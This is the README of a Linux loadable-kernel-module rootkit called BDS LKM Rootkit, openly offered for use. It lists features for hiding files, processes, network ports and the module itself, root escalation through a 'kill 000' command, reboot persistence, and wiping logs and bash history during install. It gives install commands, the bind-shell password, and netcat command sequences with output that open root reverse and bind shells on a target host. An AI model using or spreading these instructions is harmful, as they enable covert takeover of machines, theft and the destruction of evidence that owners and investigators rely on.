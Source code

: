 <h2>BDS LKM ROOTKIT</h2>
<p>
Linux Loadable Kernel Module Rootkit for Linux Kernel 5.x and 6.x on x86_64.
<br>
Developed by : Antonius 
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<br>  
This lkm rootkit works on x64 architecture only.
</p>

<p>
<h3>Features</h3> 
<ul>
  <li>hide files and directories with prefix bds_</li>
  <li>port knocking bind shell (bind shell password is bluedragonsec)</li>
  <li>port knocking reverse shell</li>
  <li>privilege escalation using kill 000 command</li>
  <li>hide bind shell and reverse shell port from netstat</li>
  <li>hide bind shell and reverse shell process</li>
  <li>rootkit persistence to survive after reboot</li>
  <li>hide module</li>
  <li>clean logs and bash history during installation</li>
</ul>
</p>
<h3>Installation</h3>
<p>
In case you have installed linux kernel headers, make and gcc, install it by running the installer script:
<br>
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed linux kernel headers, make and gcc, install it by running the installer script  :
<br>
<pre>
./install.sh
</pre>
<br>
</p>
<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>  
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing : <b>kill 000</b>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ kill 000
robotsoft@robotsoft:~$ id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
</pre>  
</p>
<p>
<b>Activating Reverse Shell</b>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then do port knocking to your target server (with rootkit installed) on port 1337.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and do port knocking to target server :
<pre>
nc server ip 1337
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Do port knocking to target ip address (with rootkit installed) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1337
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
robotsoft@robotsoft:~$ nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.0.102 44052
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>

<p>
<b>Activating Bind Shell</b>
<br>
To activate bind shell, you need to do port knocking to your target server (with rootkit installed) on port 1338.
The bind shell password is : bluedragonsec
<br>
On your machine, open terminal and type:
<pre>
nc server ip 1338
</pre>  
Wait a few seconds then type:
<pre>
nc server ip 31337
type the password : bluedragonsec
</pre>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1338
(wait a few seconds)
robotsoft@robotsoft:~$ nc 192.168.0.102 31337
Password :bluedragonsec
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>
<p>
<b>Hiding Files and Directories</b>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>
<p>
<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to clean logs to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>


<p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>


